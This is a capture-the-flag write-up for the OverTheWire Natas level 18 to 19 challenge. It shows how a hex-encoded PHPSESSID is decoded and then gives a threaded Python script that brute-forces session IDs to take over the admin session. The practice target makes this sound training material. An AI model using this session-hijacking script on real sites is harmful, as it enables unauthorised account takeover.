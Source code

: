 ```yaml
---
layout: post
title:  "Natas Level 18 → Level 19"
date:   2021-05-29 20:55:52
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: What the hex?
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
The natas19 site tells us that the site is nearly identical to the the previous level, and that session ids are no longer sequential. There is no source code to view.

Let's start opening the Developer Tools, clicking on Storage and then entering some random data into the username and password fields.

We now have a much longer value for PHPSESSID. Here's the value I received:

```
3335362d6e617461733230
```

My first thought is the value appears to be hexadecimal. Let's treat it as such and attempt to decode it. While there are plenty of tools to decode base64, I opted to use [CyberChef](https://gchq.github.io/CyberChef). Feel free to use any utility you want to decode the value.

CyberChef returned **356-natas20**. This looks like the PHPSESSID is now made up of a random number, followed by a dash, followed by the username entered into the form.

Let's update our script from the last level.

```python
#!/usr/bin/env python
import requests
from requests.auth import HTTPBasicAuth
import concurrent.futures

natas19_password = '4------------------------------s'
session = requests.Session()


def get_phpsessid(id):
    raw_id = str(id) + "-admin"
    enc_id = raw_id.encode('utf-8').hex()

    resp = requests.get('http://natas19.natas.labs.overthewire.org/index.php',
                        cookies={"PHPSESSID": enc_id},
                        auth=HTTPBasicAuth('natas19', natas19_password))

    if "You are logged in as a regular user" not in resp.text:
        print(f'The admin id is {id}')
        print(resp.text)
        exit(0)


with concurrent.futures.ThreadPoolExecutor() as executor:
    executor.map(get_phpsessid, list(range(641)))
```